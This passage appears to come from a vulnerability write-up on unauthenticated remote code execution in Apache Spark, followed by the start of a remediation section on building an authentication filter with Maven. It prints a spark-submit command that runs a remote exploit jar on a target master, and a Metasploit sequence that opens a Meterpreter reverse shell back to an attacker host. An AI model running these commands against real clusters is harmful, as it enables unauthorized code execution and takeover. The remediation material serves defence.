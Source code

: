 The method is to use the Apache Spark script `bin/spark-submit` that comes with Spark:

```
bin/spark-submit --master spark://your-ip:7077 --deploy-mode cluster --class Exploit https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar id
```

If the master parameter you specify is a REST server, this script will first try to submit the application using the REST API; if it finds that it is not a REST server, it will degrade to using the submission gateway to submit the application.

The way to view the results is the same as before.

### **MSF**

```
msf5>use exploit/linux/http/spark_unauth_rce 
msf5>set payload java/meterpreter/reverse_tcp 
msf5>set rhost 192.168.100.2 
msf5>set rport 6066 
msf5>set lhost 192.168.100.1 
msf5>set lport 4444 
msf5>set srvhost 192.168.100.1 
msf5>set srvport 8080 
msf5>exploit
```

## Solution

### Create an Authenticated Filter Corresponding Jar Package

Compile the source code using Maven in IntelliJ IDEA.

#### Add Maven Dependency

After creating a Maven project, add the following dependency to pom.xml:

```
 <dependencies>

        <dependency>
            <groupId>commons-codec</groupId>
            <artifactId>commons-codec</artifactId>
            <version>1.10</version>
        </dependency>

        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.35</version>
        </dependency>

        <!-- logback 依赖 -->
        <dependency>
            <groupId>ch.qos.logback</groupId>
            <artifactId>logback-classic</artifactId>
            <version>1.2.3</version>
        </dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
```